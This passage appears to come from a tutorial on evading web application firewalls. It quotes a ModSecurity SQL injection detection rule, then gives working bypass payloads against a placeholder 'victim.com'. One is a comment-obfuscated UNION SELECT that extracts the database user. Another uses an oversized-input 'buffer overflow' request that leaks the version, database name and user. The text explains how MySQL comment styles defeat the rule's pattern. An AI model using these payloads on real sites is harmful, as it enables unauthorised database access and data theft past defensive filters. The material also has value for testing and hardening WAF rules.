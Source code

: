 		[SecRule]--------------------------------------------------------------------------
		SecRule REQUEST_FILENAME|ARGS_NAMES|ARGS|XML:/* "\bunion\b.{1,100}?\bselect\b" \ "phase2,rev:'2.2.1',capture,t:none,
		t:urlDecodeUni,t:htmlEntityDecode,t:lowercase,t:replaceComments,t:compressWhiteSpace,ctl:auditLogParts=+E,block,
		msg:'SQL Injection Attack',id:'959047',tag:'WEB_ATTACK/SQL_INJECTION',tag:'WASCTC/WASC-19',tag:'OWASP_TOP_10/A1',
		tag:'OWASP_AppSensor/CIE1',tag:'PCI/6.5.2',logdata:'%{TX.0}',severity:'2',setvar:'tx.msg=%{rule.msg}',
		setvar:tx.sql_injection_score=+%{tx.critical_anomaly_score},setvar:tx.anomaly_score=+%{tx.critical_anomaly_score},
		setvar:tx.%{rule.id}-WEB_ATTACK/SQL_INJECTION-%{matched_var_name}=%{tx.0}"
		[End Rule]-------------------------------------------------------------------------

		We can bypass their filtering with this code:
		
		[Code]------------------------------------------------------------------------------
		http://victim.com/news.php?id=0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
		[End Code]--------------------------------------------------------------------------

		From this attack, We can bypass Mod Security rule. Let see what's happen !! 
		
		MySQL Server supports 3 comment styles:
			- From a "#" character to the end of the line
			- From a "--" sequence to the end of the line
			- From a /* sequence to the following */ sequence, as in the C programming language.
			  This syntax enables a comment to extend over multiple lines because the beginning and closing sequences need
			  not be on the same line.

		The following example, We used "%0D%0A" as the new line characters. Let's take a look at the first request(to extract the DB user)
		The resulting SQL payload looked something like this:

			0 div 1 union#foo*/*/bar
			select#foo
			1,2,current_user
		
		However the SQL payload, when executed by the MySQL DB, looked something like this:

			0 div 1 union select 1,2,current_user	


	5. Buffer Overflow

		WAFs that written in the C language prone to overflow or act differently when loaded with a bunch of data.
		Give a large amount of data allows our code executing	
	
		[Code]------------------------------------------------------------------------------
		http://victim.com/news.php?id=1+and+(select 1)=(select 0x414141414141441414141414114141414141414141414141414141
		414141414141.)+union+select+1,2,version(),database(),user(),6,7,8,9,10--
		[End Code]--------------------------------------------------------------------------

	